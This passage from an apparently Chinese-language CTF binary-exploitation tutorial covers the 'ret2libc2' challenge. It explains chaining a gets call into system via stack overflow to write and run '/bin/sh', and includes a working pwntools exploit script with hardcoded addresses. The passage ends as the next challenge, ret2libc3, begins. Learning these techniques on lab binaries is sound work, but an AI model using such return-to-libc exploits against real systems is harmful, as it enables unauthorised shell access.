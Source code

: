 gdb调试看到bss段是可写的，接下来就要考虑如何向buf2这个变量中读入数据了

既然我们可以直接调用到system函数，那对于这个程序，栈溢出本来就是由gets触发的，那也可以直接调用gets向buf2中读入数据了

那大概的思路就出来了

- 通过栈溢出到gets函数，gets函数的参数是buf2，内容是`/bin/sh`
- gets函数返回到system@plt

栈分步应该是这样的，从上到下（低地址到高地址）：

- gets地址
- system地址（也是gets的返回地址）
- buf2（是gets的参数）
- buf2（是system的参数）

在IDA中找到gets@plt，system@plt，buf2的地址

payload如下，gets的参数为buf2，返回地址是sys_addr，system函数再向上寻找第二个字长，参数是buf2，然后发送`/bin/sh`，这样gets就读入了`/bin/sh`到bss的buf2变量，理解了上面为什么system向上两个字长是参数就明白了这个exp

```
from pwn import *
p=process('./ret2libc2')
context(os='linux', arch = 'amd64', log_level = 'debug')

get_addr = 0x08048460
sys_addr = 0x08048490
buf2_addr = 0x0804A080
payload = cyclic(112) + p32(get_addr) + p32(sys_addr) + p32(buf2_addr) + p32(buf2_addr)	
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```

#### ret2libc3

![image-20240301161849422](images/51.png)

仍然的32位程序，只开了NX保护

![image-20240301161931365](images/52.png)
